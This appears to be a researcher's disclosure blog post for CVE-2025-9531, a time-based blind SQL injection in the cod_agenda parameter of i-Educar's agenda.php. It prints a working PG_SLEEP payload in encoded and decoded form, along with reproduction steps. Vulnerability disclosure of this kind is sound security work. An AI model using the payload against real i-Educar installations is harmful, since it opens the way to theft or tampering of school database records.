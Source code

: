 # CVE-2025-9531


How I Found a **Time-Based Blind SQL Injection** in i-Educar (With Real Delay and PoC).

<!--more-->

> ***🇧🇷 Ler em [Português](http://karinagante.github.io/pt-br/cve-2025-9531).***

## CVE-2025-9531

### Introduction

<p align="justify">While diving into the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> Open-Source project, I uncovered a critical time-based blind SQL Injection vulnerability in the <b>cod_agenda</b> parameter of the <b>agenda.php</b> endpoint. </br> This flaw allows attackers to execute arbitrary SQL queries silently against the backend database, putting data confidentiality, integrity, and availability at risk. </br> After validating the issue using a payload that caused measurable delays in the server's response, I reported it responsibly, and it was officially assigned as <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### What is CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> is a SQL Injection vulnerability in the <b>/intranet/agenda.php</b> endpoint of the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> application. </br> The vulnerable parameter is <b>cod_agenda</b>, which lacks proper input validation. </br> This makes it possible to inject custom SQL queries, including <code>PG_SLEEP()</code> functions that introduce time delays, confirming the flaw via time-based behavior. </p>

### Technical Details

➤ **Vulnerable Endpoint** `/intranet/agenda.php`

➤ **Affected Parameter:** `cod_agenda`

> ➤ **Payload Used (Encoded)**
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Used (Decoded)**
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

To reproduce the vulnerability:

➤ Access the vulnerable endpoint and click **"Novo Compromisso"** (New Appointment)

➤ Fill in the required fields and click **"Salvar"** (Save)

➤ The system redirects to a URL like:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Now, modify the `cod_agenda` parameter with the payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">The server will take 5 seconds to respond, confirming that the SQL query was executed successfully.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{<admonition tip Report>}}
You can access the full report and see the complete step-by-step instructions. Here:

{{< fa-icon regular github >}}
***[CVE-2025-9531 Report](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-9531.md)***
{{< /admonition >}}

### Impact

This vulnerability can be exploited to:

- Access sensitive data stored in the database;
- Enumerate database schemas, tables, and columns;
- Modify, delete, or insert arbitrary records;
- Steal user credentials and personal information;
- Perform a denial of service (DoS) attack by triggering long query delays;
- In some cases, escalate to Remote Code Execution (RCE).

### Official Sources

The flaw was ethically reported and attributed as:

{{< admonition important References>}} 
{{< fa-icon regular shield >}}
***[CVE-2025-9531 on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[VulDB Entry](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusion

<p align="justify">SQL injection attacks remain one of the most critical threats to web applications, especially when silent and time-based. This discovery demonstrates how a single unvalidated parameter can compromise the entire database behind a platform. </br></br> If you're a developer or security analyst, be aware: <b>even small, seemingly harmless endpoints can hide dangerous flaws.</b></p>

## Credits

***Discovered with 💜 by [Karina Gante](https://karinagante.github.io/).***

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹***
